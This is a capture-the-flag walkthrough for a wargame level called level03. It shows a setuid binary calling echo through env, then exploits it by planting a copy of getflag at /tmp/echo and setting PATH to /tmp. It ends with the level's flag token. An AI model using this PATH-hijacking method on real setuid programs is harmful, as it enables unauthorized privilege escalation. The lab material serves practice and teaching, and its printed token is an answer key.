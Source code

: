 ##### 1 - Analyze directory content
``ls -l``

>total 12
>-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03

Owner is flag03, and the 's' means it will be launched has owner

----

##### 2 - Analyze binary file

``strings level03``
>/usr/bin/env echo Exploit me

We see that the main call /usr/bin/env to call echo

----

##### 3 - Find getflag and replace PATH in env

``which getflag``
/bin/getflag

We have to copy getflag binary to tmp, and name it **echo** to be sure that it will be executed instead of the real echo
``cp /bin/getflag /tmp/echo``

Set the right to execute
``chmod 777 /tmp/echo``

Define the path to /tmp
``export PATH=/tmp``

----

##### 4 - Getting the flag
``./level03``
>Check flag.Here is your token : **qi0maab88jeaj46qoumi7maus**

